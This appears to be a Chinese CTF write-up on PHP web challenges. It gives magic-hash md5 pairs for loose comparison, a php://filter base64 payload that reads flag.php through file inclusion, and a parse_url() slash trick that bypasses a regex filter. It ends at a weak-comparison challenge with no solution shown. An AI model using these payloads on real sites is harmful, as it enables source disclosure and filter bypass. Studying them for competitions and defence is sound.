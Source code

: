 php弱类型比较，常用md5:

```php
md5(‘240610708’) == md5(‘QNKCDZO’)
md5(‘aabg7XSs’) == md5(‘aabC9RqS’)
```

等等

php类型比较说明文档
PHP文件包含

?file=file.php

要读源码，加参数

`php://filter/read=convert.base64-encode/resource=flag.php`

得到
PD9waHAKLy9tb2VjdGZ7TElGXzFTX3YzcnlfRWFTeX0K

base64解码后得到flag(好叭这个flag.php是猜的)
Parse_URL

…..这是原题。
最好的语言里的parse_url()函数有个feature，当它接收到一个无法parse的url参数时会返回FALSE

> On seriously malformed URLs, parse_url() may return FALSE.

php parse_url函数文档

```php
$url = urldecode($_SERVER['REQUEST_URI']);
$url = parse_url($url, PHP_URL_QUERY);
...
if (preg_match("/\w+/i", $url))#匹配[A-Z][a-z][0-9]和下划线
{
    die("...");
}
```

false当然不是character啦啦啦啦
所以把url里头的斜杠多写几个就可以啦
然后再配上一个小小的参数就爆flag了

`?_=0`

flag是啥？不重要了

#### PHP弱类型的复仇

先干啥好呢？F12啊

```php
$pattern='/^(?=[1-9])(?=.[A-Z]).{10,12}$/';
#匹配以一个数字开头，紧跟一个大写字母的长度为10-12的串
$gugugu=$_GET['gugugu'];
if (preg_match($pattern, $gugugu)===0) {
    echo "正则看懂了嘛";#看懂啦
}
else{
    $secret="******";
    if ($gugugu==$secret) {
        echo "tqdl，给师傅递flag<br>".$flag;
    }
}
```
